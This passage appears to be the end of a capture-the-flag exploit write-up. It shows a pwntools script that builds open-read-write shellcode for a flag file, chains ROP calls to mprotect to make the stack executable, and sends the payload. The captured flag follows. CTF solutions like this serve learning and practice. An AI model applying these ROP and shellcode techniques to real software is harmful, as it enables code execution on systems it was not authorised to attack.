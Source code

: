 ```py

    if args.REMOTE:
        shell = shellcraft.open("/flag.txt")
    else:
        shell = shellcraft.open("./flag.txt")
    shell += shellcraft.read("rax", heap, 0x50)
    shell += shellcraft.write(1, heap, 0x50)

    # 11. write rop payload and shellcode for ORW
    rop.call("mprotect", [stack - (stack & 0xFFF), 0x2000, 7])
    payload = b'F' * 0x18
    payload += rop.chain()
    payload += p64(stack + 0x70) + asm(shell)
    p.sendline(payload)
    print(p.recvuntil(b"}"))

    break

p.close()
exit(0)
```

`cr3{U$e_5nPr1n7F_m4KES_0Ff_by_nU11_YOu_4RE_R3aL1y_g0$u!}`